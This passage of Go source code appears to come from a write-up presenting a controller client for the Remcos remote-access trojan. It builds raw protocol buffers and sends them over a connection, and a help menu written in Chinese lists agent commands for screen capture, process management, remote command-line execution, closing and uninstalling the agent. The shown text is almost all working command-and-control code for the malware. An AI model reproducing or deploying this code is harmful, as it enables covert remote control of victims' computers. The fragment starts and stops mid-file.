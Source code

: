           if text == "exit" {  
           remcos_xx.Stop()  
           break  
          } else {  
           sendbuf = []byte{0x0E, 0x00, 0x00, 0x00, 0x31, 0x33, 0x35, 0x37, 0x30, 0x37, 0x37, 0x32, 0x38, 0x7C, 0x1E, 0x1E, 0x1F, 0x7C}  
           sendbuf = append(sendbuf, []byte(text)...)  
           sendbuf = append(sendbuf, []byte{0x7C, 0x1E, 0x1E, 0x1F, 0x7C}...)  
           remcos_xx.Sendbuf(conn, sendbuf)  
          }  
         }  
        }  
       case "close":  
        sendbuf, _ := hex.DecodeString("21000000")  
        remcos_xx.Sendbuf(conn, sendbuf)  
        os.Exit(0)  
       case "uninstall":  
        sendbuf, _ := hex.DecodeString("22000000")  
        remcos_xx.Sendbuf(conn, sendbuf)  
        os.Exit(0)  
       case "exit":  
        os.Exit(0)  
       case "help":  
        fmt.Println("\tscreen_capture:截屏")  
        fmt.Println("\tprocess_manager：进程管理")  
        fmt.Println("\tcommand_line：执行命令行")  
        fmt.Println("\tclose：关闭Agent进程")  
        fmt.Println("\tuninstall：卸载Agent")  
        fmt.Println("\texit：退出Client")  
       }  
      }  
     }  
    }  
    

  * common/common.go

    
    
    package common  
      
    import (  
     "bytes"  
     "encoding/binary"  
     "fmt"  
     "io"  
     "os"  
    )  
      
    func Reversedata(arr *[]byte) {  
     var temp byte  
     length := len(*arr)  
     for i := 0; i < length/2; i++ {  
      temp = (*arr)[i]  
      (*arr)[i] = (*arr)[length-1-i]  
      (*arr)[length-1-i] = temp  
     }  
    }  
      